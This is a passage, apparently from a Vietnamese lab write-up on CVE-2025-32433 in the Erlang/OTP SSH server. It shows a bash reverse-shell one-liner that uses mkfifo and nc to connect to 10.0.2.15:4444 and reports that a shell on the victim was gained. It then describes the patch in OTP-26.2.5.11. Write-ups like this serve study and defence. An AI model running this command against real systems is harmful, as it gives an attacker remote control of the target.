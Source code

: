 ```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.15 4444 >/tmp/f
```

![CVE-2025-32433](Images/8.png)

- Thành công tạo shell kết nối đến máy nạn nhân.

![CVE-2025-32433](Images/9.png)

## 5. Vá lỗ hổng 

- Sau khi được ghi nhận, lỗ hổng này được khắc phục tại phiên bản OTP-26.2.5.11.
- Chi tiết cập nhật mã nguồn được lưu tại [github của erlang](https://github.com/erlang/otp/commit/b1924d37fd83c070055beb115d5d6a6a9490b891#diff-ceeb1aeeb602e1424c13d9da9383e0782f65869d6e64e015c194145b1a64edcd) 
- Cụ thể, CVE này được khắc phục bằng cách thêm một pattern matching (khớp mẫu) trong Erlang (thường được dùng để xử lý message trong một state machine của một quá trình SSH server.)

